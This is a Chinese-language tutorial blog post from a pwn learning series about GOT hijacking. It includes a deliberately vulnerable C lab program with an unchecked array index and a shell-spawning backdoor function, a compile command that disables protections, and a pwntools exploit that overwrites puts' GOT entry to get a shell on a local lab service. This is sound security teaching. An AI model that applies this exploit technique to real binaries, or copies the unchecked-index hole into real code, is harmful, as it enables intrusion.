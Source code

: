 ```yaml
---
title: "Day10－GOT Hijacking"
date: 2024-09-10
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

前一天我們介紹了 GOT 和 Lazy Binding 的機制，今天要介紹的是如何利用這些機制進行攻擊，也就是 GOT Hijacking。

## 簡介

由於 Lazy Binding 的機制，GOT 是可寫的。因此，如果能夠覆蓋 GOT 的值，那麼下次呼叫該函數時，就可以控制即將執行的函數指針。這種情況通常出現在陣列未驗證輸入範圍、記憶體越界（即所謂的 out of bounds，oob）或是透過格式化字串（format string）將特定值寫入 GOT 的情況。

## Lab

```c=
#include<stdio.h>
#include<stdlib.h>

int backdoor(const char *arg){
    system("/bin/sh");
}

long long value[4];

int main(){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    long long index;
    for(int i = 0; i < 4; i++){
        puts("Enter a index to store a value: ");
        scanf("%lld", &index);
        puts("Enter a value: ");
        scanf("%lld", &value[index]);
    }
    if(value[0] != 123){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[1] != 456){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[2] != 789){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[3] != 101112){
        puts("CHECK FAILED\n");
        exit(0);
    }
    puts("CHECK PASSED\n");
    return 0;
}
```

使用以下指令進行編譯（注意，預設編譯會是 Partial RELRO）：

```sh=
gcc src/got.c -o ./got/share/got -fno-stack-protector -no-pie
```

大家可以嘗試練習這道題目，或者繼續閱讀以下的解題步驟。

## writeup

首先，這道題目有一個 `backdoor()` 函數，該函數會直接打開一個 shell。此外，程式允許我們四次機會編輯陣列 `value` 中的值，並且可以自由選擇要修改哪個索引值。由於沒有驗證索引範圍，因此我們可以利用 oob（out of bounds）漏洞，再加上 GOT Hijacking，將某個函數指針覆蓋，使其執行 `backdoor` 函數。

這題相對簡單，因為可以使用 `objdump` 來 disassemble 程式，從中計算應該填入哪些位置。從 `main` 函數可以看到 `value` 陣列的位址是 0x404080。

![image](/images/iron2024/day10_image1.png)

接下來我們需要找出該填入的位置與 `value` 陣列位址之間的差異。在這裡，我們選擇覆蓋 `puts` 函數，因為在寫入值之後會呼叫 `puts` 函數。確認一下 `puts` 的 GOT 位址是 0x404000，依此就能判斷應該覆蓋哪個索引。

![image](/images/iron2024/day10_image2.png)

接著，我們要將 `backdoor` 函數的位址（0x401166）寫入。

![image](/images/iron2024/day10_image3.png)

現在所有資訊都已經掌握，可以開始編寫 exploit。

記得因為程式直接接收數字及數值，因此以字串的形式輸入即可。

完整 exploit：
```py=
from pwn import *

# r = process('../got/share/got')
r = remote('127.0.0.1', 10002)

value = 0x404080
puts_got = 0x404000
backdoor = 0x401166

offset = (puts_got - value) // 8
r.sendlineafter(b'Enter a index to store a value: \n', str(offset).encode())
r.sendlineafter(b'Enter a value: \n', str(backdoor).encode())
r.interactive()
```

solved！！

![image](/images/iron2024/day10_image4.png)
